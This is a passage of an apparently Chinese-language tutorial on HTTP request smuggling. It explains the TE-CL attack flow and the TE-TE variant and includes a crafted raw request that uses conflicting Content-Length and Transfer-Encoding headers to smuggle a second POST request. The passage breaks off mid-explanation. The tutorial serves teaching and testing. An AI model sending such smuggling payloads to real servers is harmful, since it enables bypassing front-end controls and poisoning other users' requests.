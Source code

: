 **攻击流程**：
前端服务器处理`Transfer-Encoding`，当其读取到

```
0\r\n
\r\n
```

认为是读取完毕了。
此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理`Content-Length`请求头，因为请求体的长度为`4`.也就是当它读取完

```
12\r\n
```

就认为这个请求已经结束了。后面的数据就认为是另一个请求：

```
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

成功报错，造成HTTP请求走私。

#### TE-TE

TE-TE，当收到存在两个请求头的请求包时，前后端服务器都处理`Transfer-Encoding`请求头，确实是实现了RFC的标准。不过前后端服务器不是同一种。这就有了一种方法，我们可以对发送的请求包中的`Transfer-Encoding`进行某种混淆操作(如某个字符改变大小写)，从而使其中一个服务器不处理`Transfer-Encoding`请求头。在某种意义上这还是`CL-TE`或者`TE-CL`。
**构造请求示例**：

```
POST / HTTP/1.1\r\n
Host: test.com\r\n
......
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
5c\r\n
aPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```

**攻击流程**：
前端服务器处理`Transfer-Encoding`，当其读取到

```
0\r\n
\r\n
```
